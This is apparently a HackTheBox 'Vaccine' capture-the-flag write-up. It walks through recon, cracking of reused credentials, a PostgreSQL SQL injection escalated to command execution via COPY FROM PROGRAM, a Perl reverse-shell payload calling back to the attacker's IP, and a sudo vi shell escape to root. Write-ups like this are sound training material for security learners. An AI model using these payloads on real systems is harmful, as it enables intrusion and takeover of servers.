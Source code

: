 ```yaml
---
description: Vaccine box from HackTheBox write up.
---
```


# Vaccine

## nmap scan

Let's start as always with a `nmap` scan:

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p- <MACHINE_IP>
[sudo] password for kali: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-01 15:47 EDT
Nmap scan report for <MACHINE_IP>
Host is up (0.053s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 19.16 seconds
```

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p21,22,80 -sC -sV <MACHINE_IP>
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-01 15:49 EDT
Nmap scan report for <MACHINE_IP>
Host is up (0.052s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: MegaCorp Login
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.15 seconds
```

So FTP, SSH and an web server. Let's see that web.

## Port 80

A login page, i tried some basic SQL injections payload and some old credentials from previous challenges but no luck. I want to check `gobuster` to check if we can find something interesting apart from the login form.

```bash
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://<MACHINE_IP>
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2021/09/01 15:58:59 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 2312]
/dashboard.php        (Status: 302) [Size: 931] [--> index.php]
===============================================================
2021/09/01 16:06:00 Finished
===============================================================
```

A dashboard, but only accesible after login sadly.

## Port 21

Looks like in the Oopsie machine we can find the credentials we need under `/root/.config/filezilla/filezilla.xml`. Using the credentials `ftpuser:mc@F1l3ZilL4` found in that file we are able to login to the FTP client. 

In the FTP client we can find a backup file protected with a password that can be cracked using `john` and Rockyou as the wordlist. The password is `741852963`.

Inside the protected `zip` file we find an `index.php` where the admin credentials for the website can be found: `admin:2cb42f8734ea607eefed3b70af13bbd3`. The password is `md5` hashed, in this case we can use `https://crackstation.net/`  to get the plain text password: `qwerty789`.

## Admin Dashboard

After login to the admin dashboard with the credentials found in the FTP server, we can see a car list. The search field is SQL injectable so let's get some extra information from the database.

```sql
123'union select '1', '2', '3', version(), '5' -- -
```

That code returned: `PostgreSQL 11.5 (Ubuntu 11.5-1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.1.0-9ubuntu2) 9.1.0, 64-bit`

After getting that the database is Postgres we can check if we have access to the COPY TO/FROM PROGRAM functionality:

```sql
123'; DROP TABLE IF EXISTS cmd_exec; CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'id';  -- -

123'union select '1', '2', '3', '4', cmd_output from cmd_exec -- -
```

After that i was able to get: `uid=111(postgres) gid=117(postgres) groups=117(postgres),116(ssl-cert)` so we have RCE cool. Let's try to get a shell, after try and error this looks like worked!

```sql
123'; COPY cmd_exec FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"<MY_IP>:8080");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';  -- -
```

## In the box

The reverse shell dies after some seconds of inactivity, what is annoying but is what we have right now. In `/var/www/html/dashboard.php` i found this line: `$conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");` and looks like the database password is the same for the system account so we have `ssh`access now (Thanks god because the reverse shell stability was killing me).

Look's like the `postgres`user can execute `vi` as `root`:

```bash
postgres@vaccine:/var/lib/postgresql/11/main$ sudo -l
sudo -l
[sudo] password for postgres: P@s5w0rd!

Matching Defaults entries for postgres on vaccine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

Inside `vi` we can execute commands so once we execute `/bin/vi /etc/postgresql/11/main/pg_hba.conf` we can just `!bash` to get a `root` shell. About the root flag, it is in `/root/root.txt`.
